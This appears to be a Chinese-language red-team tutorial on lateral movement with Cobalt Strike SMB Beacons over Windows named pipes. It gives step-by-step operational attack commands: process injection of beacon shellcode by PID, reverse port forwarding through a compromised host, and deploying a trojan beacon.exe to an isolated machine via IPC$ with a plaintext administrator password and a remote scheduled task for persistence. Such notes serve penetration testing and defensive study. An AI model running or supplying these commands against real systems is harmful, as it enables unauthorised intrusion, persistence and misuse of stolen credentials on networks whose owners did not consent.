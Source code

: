 ![](../../img/Pasted%20image%2020250620164247.png)

```
windows/beacon_smb/bind_pipe
```
- `SMB Beacon`使用Windwos的命名管道通过父级Beacon通讯, 当两个Beacons连接后, 子从父获取到任务并发送
- 此流量封装在*SMB协议* (网络文件共享协议 by Windows)中, 相对隐蔽, 绕过防火墙有奇效
- 前提条件: 
	- 目标主机开启了相关的`IPC$`服务
	- 没有禁用或防火墙阻止`IPC$`连接, 没有禁用139和445端口
	- 只能链接由**同一个CS实例**管理的Beacon
	- 利用`Beacon`横移必须有**目标主机的管理员或具有管理员权限凭据**
1. 使用一个HTTP监听器和一个SMB监听器(stageless), Pipename可以自定义
2. 右键进入HTTP Beacon的会话控制台, 执行`spawn <SMB-Listener-Name>`, 成功后会出现新会话, 地址处带有链接符号
3. 进程注入SMB Beacon: 进入HTTP Beacon会话控制台, 执行`ps`命令查看主机所有进程信息, 找到对应进程ID并执行**进程注入**, 完成后出现新的Beacon会话, 地址处带有链接符号, 注入新进程后获得新beacon shell, 不依赖旧payload进程维持
```shell
# 打开[pid]指定的进程, 将[监听器]生成的shellcode注入进程
inject [pid] <x86|x64> [监听器]
```
4. 右键设置监听器为**会话中转**, 利用已攻陷的机器作为代理, 为其它Beacon会话中转网络流量
```shell
# 在beacon控制台执行如下命令
rportfwd 4445 windows/beacon_reverse_tcp

rportfwd [绑定端口] [转发目的主机] [转发目的端口]
rportfwd stop [绑定端口]
```
5. 使用监听器生成木马文件, 上传到目标**不出网主机**, 通过IPC$, 计划任务等方式运行木马文件, 成功上线(**被动连接**)
```
shell net use \\192.168.1.3 /user:Administrator "qaz@WSX"
shell dir \\192.168.1.3\C$
upload C:\beacon.exe
shell copy C:\beacon.exe \\192.168.1.3\C$
shell schtasks /create /s 192.168.1.3 /u Administrator /p "qaz@WSX" /sc MINUTE /mo 1 /tn test /tr "C:\\beacon.exe"
```